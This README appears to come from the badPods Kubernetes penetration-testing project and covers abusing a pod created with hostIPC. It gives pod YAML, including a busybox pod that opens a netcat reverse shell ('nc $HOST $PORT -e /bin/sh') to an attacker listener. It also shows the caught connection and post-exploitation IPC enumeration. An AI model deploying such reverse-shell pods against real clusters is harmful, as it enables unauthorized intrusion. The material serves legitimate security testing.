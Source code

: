 ## You can create a pod with only hostIPC

If you only have `hostIPC=true`, you most likely can't do much. What you should do is use the ipcs command inside your hostIPC container to see if there are any ipc resources (shared memory segments, message queues, or semephores). If you find one, you will likely need to create a program that can read them. 

# Pod Creation

## Create a pod you can exec into
```yaml
apiVersion: v1
kind: Pod
metadata:
  name: pod-hostipc
  labels:
    app: hostipc
spec:
  hostIPC: true
  containers:
  - image: ubuntu
    command:
      - "sleep"
      - "604800"
    imagePullPolicy: IfNotPresent
    name: hostipc
  # Force scheduling of your pod on master mode by uncommenting this line and changing the name
  #nodeName: k8s-master
  restartPolicy: Always
  ```
[pod-hostipc-only.yaml](pod-hostipc-only.yaml)

#### Option 1: Create pod from local yaml 
```bash
kubectl apply -f pod-hostipc-only.yaml   
```

#### Option 2: Create pod from github hosted yaml
```bash
kubectl apply -f https://raw.githubusercontent.com/BishopFox/badPods/main/yaml/hostipc-only/pod-hostipc-only.yaml  
```

### Exec into pod 
```bash
kubectl -n [namespace] exec -it pod-hostipc-only -- bash
```

## Or, create a reverse shell pod
```yaml
apiVersion: v1
kind: Pod
metadata:
  name: pod-hostipc-revshell
  labels:
    app: hostipc-revshell
spec:
  hostIPC: true
  containers:
  - image: busybox
    command: [ "/bin/sh", "-c", "--" ]
    args: [ "nc $HOST $PORT  -e /bin/sh;" ]

    imagePullPolicy: IfNotPresent
    name: hostipc--revshell
  # Force scheduling of your pod on master mode by uncommenting this line and changing the name
  #nodeName: k8s-master
  restartPolicy: Always
```
[pod-hostipc-only-revshell.yaml](pod-hostipc-only-revshell.yaml)

#### Set up listener
```bash
nc -nvlp 3116
```

#### Create the pod
```bash
# Option 1: Create pod from local yaml without modifying it by using env variables and envsubst
HOST="10.0.0.1" PORT="3116" 
envsubst < ./yaml/hostipc-only/pod-hostipc-only-revshell.yaml | kubectl apply -f -
```

#### Catch the shell and chroot to /host 
```bash
~ nc -nvlp 3116
Listening on 0.0.0.0 3116
Connection received on 10.0.0.162 42035
```

# Post exploitation 
#### Look for any use of inter-process communication on the host 
```bash
ipcs -a
```

Reference: https://opensource.com/article/20/1/inter-process-communication-linux



#### Attacks that apply to all pods, even without any special permissions
* Cloud metadata service
* `Kube-apiserver` or `kubelet` with `anonymous-auth` enabled
* Kubernetes exploits
* Hunting for vulnerable application/services in the cluster

# Demonstrate Impact

If you are performing a penetration test, the end goal is not to gain cluster-admin, but rather to demonstrate the impact of exploitation. Use the access you have gained to accomplish the objectives of the pentration test.

